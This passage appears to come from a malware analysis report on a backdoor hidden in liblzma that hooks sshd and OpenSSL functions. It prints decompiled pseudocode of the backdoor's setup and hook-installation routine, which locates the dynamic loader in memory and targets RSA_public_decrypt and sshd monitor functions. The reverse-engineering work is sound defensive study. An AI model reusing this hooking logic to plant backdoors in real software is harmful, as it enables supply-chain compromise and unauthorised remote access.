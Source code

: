 ```c
    }
  }
  return result;
}
```

In this function, the backdoor initialises the `bd_ftable` structure which contains several important function pointers, e.g.:

- functions used in the hook installation process (`install_hooks`)
- hook functions for `openssl::RSA_public_decrypt`, `openssl::RSA_get0_key`, `sshd::mm_answer_keyallowed`, `sshd::mm_log_hander`
- and other functions used in the process of backdoor operation

We will describe some of these functions later in this report.

## `bd_install_it_all`

The pseudocode of the first part of this function is shown below:

```c
  ...
  hook_ctx = input->hook_ctx;
  elf_info_list.sshd_elf_info_p = &sshd_elf_info;
  elf_info_list.ld_elf_info_p = &ld_elf_info;
  elf_info_list.libc_elf_info_p = &libc_elf_info;
  strtab = 0LL;
  rela_plt_for_RSA_public_decrypt = 0LL;
  rela_plt_for_EVP_PKEY_set1_RSA = 0LL;
  rela_plt_for_RSA_get0_key = 0LL;
  libc_stack_end = 0LL;
  elf_info_list.liblzma_elf_info_p = &liblzma_elf_info;
  elf_info_list.libcrypto_elf_info_p = &libcrypto_elf_info;
  elf_info_list.maps = &elfs;
  elf_info_list.self = &elf_info_list;

  reinitialise_hook_ctx(hook_ctx);
  ptrb = LOBYTE(l_hook_ctx->result_ptr);
  runtime_offset = l_hook_ctx->runtime_offset;
  l_hook_ctx->cpuid_ptr = ptrb;

  // contains ld_linux_x86_64.so:__tls_get_addr
  tls_get_addr = *(runtime_offset + 8 * ptrb + 24);

  // contains return address from liblzma.so:crc64_resolve
  return_address = l_hook_ctx->return_address;
  diff = return_address - tls_get_addr;

  if ( tls_get_addr >= return_address )
    diff = tls_get_addr - return_address;
  if ( diff > 0x50000 )
    goto _bd_check_failed;

  ld_ehdr = (tls_get_addr & 0xFFFFFFFFFFFFF000LL);
  end_ehdr_search = ld_ehdr - 0x20000;

  // locate ld_linux_x86_64.so base (ELF header) in process memory
  while ( reverse_trie_lookup(ld_ehdr, 0LL) != STR__ELF )
  {
    ld_ehdr -= 4096;
    if ( ld_ehdr == end_ehdr_search )
      goto _bd_check_failed;
  }

  elf_invoke_input.elf_info_list = &elf_info_list;
```